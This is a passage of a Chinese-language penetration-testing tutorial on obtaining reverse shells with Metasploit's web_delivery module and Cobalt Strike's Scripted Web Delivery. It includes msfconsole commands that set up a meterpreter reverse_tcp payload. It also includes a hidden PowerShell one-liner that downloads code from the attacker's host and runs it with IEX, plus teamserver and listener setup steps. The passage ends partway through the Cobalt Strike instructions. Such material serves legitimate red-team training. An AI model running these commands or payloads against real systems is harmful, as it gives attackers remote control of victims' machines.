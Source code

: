 ```` [![](https://p5.ssl.qhimg.com/t01c553ebfac7a01007.png)](https://p5.ssl.qhimg.com/t01c553ebfac7a01007.png)
[![](https://p0.ssl.qhimg.com/t017f8aa99b2a307bcf.png)](https://p0.ssl.qhimg.com/t017f8aa99b2a307bcf.png)

[![](https://p3.ssl.qhimg.com/t01ebe09a11da4904bc.png)](https://p3.ssl.qhimg.com/t01ebe09a11da4904bc.png)



## metasploit反弹shell

利用metasploit的web_delivery模块可通过python、php、powershell、regsvr32等进行反弹shell

攻击者(192.168.159.134)：

```
use exploit/multi/script/web_delivery
set PAYLOAD windows/meterpreter/reverse_tcp
set target 2
set LHOST 192.168.159.134
set LPORT 6666
exploit
目标机执行：
powershell.exe -nop -w hidden -c $f=new-object net.webclient;$f.proxy=[Net.WebRequest]::GetSystemWebProxy();
$f.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $f.downloadstring('http://192.168.159.134:8080/4iNSwaMtwWjm');
```

[![](https://p2.ssl.qhimg.com/t01059c412e75c4ff00.png)](https://p2.ssl.qhimg.com/t01059c412e75c4ff00.png)

[![](https://p4.ssl.qhimg.com/t0154717c97e799d852.png)](https://p4.ssl.qhimg.com/t0154717c97e799d852.png)



## Cobalt strike反弹shell

Cobalt strike的Scripted Web Delivery模块，可通过bitsadmin、powershell、python、regsvr32等进行反弹shell，类似metasploit的web_delivery模块<br>
说明：安装Cobalt strike时推荐 java version “1.8.0_121”

1)运行服务端<br>`./teamserver 192.168.159.134 lltest  #lltest为连接密码`

2)运行客户端：<br>`./cobaltstrike    #用户名随便输入  密码lltest`

3)开启监听:<br>
首先要创建一个Listener, 点击 Cobalt Strike-&gt;Listeners ，然后点击Add便可创建Listeners

点击Cobalt Strike-&gt;Listeners<br>
payload可选择windows/beacon_http/reverse_http<br>
说明：其中windows/beacon** 是Cobalt Strike自带的模块，包括dns,http,https,smb四种方式的监听器，windows/foreign** 为外部监听器，即msf或者Armitage的监听器。

[![](https://p0.ssl.qhimg.com/t0120344c7cf8e44ed7.png)](https://p0.ssl.qhimg.com/t0120344c7cf8e44ed7.png)

4)生成powershell payload:<br>
点击Attack -&gt; Web Drive-by -&gt; Scripted Web Delivery<br>
Type选择 powershell

[![](https://p5.ssl.qhimg.com/t016f6972c0aee91a3c.png)](https://p5.ssl.qhimg.com/t016f6972c0aee91a3c.png)
````